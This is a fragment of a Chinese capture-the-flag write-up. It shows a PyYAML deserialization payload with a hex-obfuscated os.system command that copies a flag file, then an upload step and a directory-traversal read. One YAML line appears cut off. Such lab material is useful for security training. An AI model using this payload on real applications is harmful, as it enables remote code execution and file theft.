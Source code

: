 然后放入yaml文件

```yaml
dirs:['']
filename:z3eyond
files:
- !!python/object/new:yaml.MappingNode
  listitems: !!str "!!python/object/new:eval  [\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x64\x64\x20\x69\x66\x3d\x
2f\x66\x6c\x61\x67\x20\x6f\x66\x3d\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x20\x3e\x20\x2f\x74\x6d\x70\x2f\x63\x2e
\x74\x78\x74\x27\x29]"
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_lo
```

最后传上去访问`/display?file=fileinfo.rar`

然后目录穿越读`tmp下的flag文件`
